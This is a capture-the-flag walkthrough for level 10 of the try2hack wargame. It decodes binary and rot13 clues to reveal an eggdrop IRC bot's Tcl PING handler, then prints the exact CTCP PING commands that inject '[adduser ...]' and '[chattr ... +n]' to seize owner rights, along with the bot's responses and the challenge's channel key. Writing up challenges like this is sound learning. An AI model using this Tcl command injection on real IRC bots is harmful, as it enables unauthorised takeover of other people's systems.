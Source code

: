 #### Level 10

After you have done level 9 you get an IRC channel name and password. 
```
Good job! You can find Level 10 at our IRC channels. Go to #try2hack.level10 on irc.efnet.org and use 'yu0aertehbomb' as key to continue. See the <a href="../chat/">chat</a> page for more information.
```

After joining you receive a binary welcome message.
```
0100111001101001011000110110010100100000011010100
110111101100010001011100010000001001110011011110111011100100000011101000111100101110000011001010010000
000100111001011110110110101110011011001110010000001010100010100100101100100110010010010000100000101000
011010010110010000001110011011010000110111101110111011000100111010101100111001001110010000001110100011
011110010000001110011011001010110010100100000011101000110100001100101001000000110001001
```

Just go to my favorite binary encoding/decoding site http://www.nickciske.com/tools/binary.php and decode it. 

The result:
```Nice job. Now type '/msg TRY2HACK showbug' to see the bug```

As you can see, you get a command that you must write to the bot to show you the bug. This is what the bot writes back:
```
ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}
```

It looked like a script, but the characters were all messed up, so thought this was rot13, which replaces all chars with the char 13 places to the right in the alphabet.
So the only thing I needed was to rot13 it again (26 chars in the alphabet. 13+13):
```php
<?php

print str_rot13('ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}');

?>
```

Which results in:
```
bind ctcr - PING ctcr:pingreply
proc ctcr:pingreply {nick uhost hand dest key arg} {
    set dur [expr [unixtime] - $arg]
    putserv "NOTICE $nick :Your ping reply took $dur seconds"}
```
After almost 24 hours, x number cups of coffee, trying and failing, hours googling and reading on eggdrop I finally made it!
The argument sent with the ping are in most irc clients a timestamp, but you can send what you want.
The bot lacks of security, it doesn't check $arg for bad code. Time to exploit.

I tried sending raw data with the /quote command but that didn't work.
I then come across the /nctcp command in Irssi (/ctcpreply for mIRC) which I noticed sent some stuff along with the data that seemed to make a diffrence. I think it was some UTF \x00\x01 thing.

Worked:
```
/nctcp LEVEL10-xxx PING [adduser yournick *!yourident@*]
/nctcp LEVEL10-xxx PING [chattr yournick +n]
```

I changed the password for the bot to '123456' by doing `/msg LEVEL10-xxx pass 123456`

```
[notice(LEVEL10-605)] PING [adduser asdf *!qwer@*]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
[notice(LEVEL10-605)] PING [chattr asdf +n]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
<asdf> pass 123456
-LEVEL10-605(try2hack@try2hack.bot) - Password changed to '123456'
```

Then start a dcc chat with the bot `/dcc chat LEVEL10-xxx`, then the bot will msg you with the URL to level 11, along with this:

```
<LEVEL10-605> Enter your password.
<asdf> 123456
<LEVEL10-605>
<LEVEL10-605> Connected to LEVEL10-0, running eggdrop v1.6.19
<LEVEL10-605>
<LEVEL10-605> Local time is now 19:43
<LEVEL10-605>
<LEVEL10-605> NOT! Welcome in LEVEL10-0, asdf!
<LEVEL10-605> ****************************************************
<LEVEL10-605> *             AUTO LOG OUT!                        *
<LEVEL10-605> ****************************************************
<LEVEL10-605>
<LEVEL10-605> -=- poof -=-
<LEVEL10-605> You've been booted from the bot by LEVEL10-0
-!- Irssi: Closing query with =LEVEL10-605
```

If the DCC chat doesn't work, then open ports 3713 to 3723, go around your router or figure out something else.
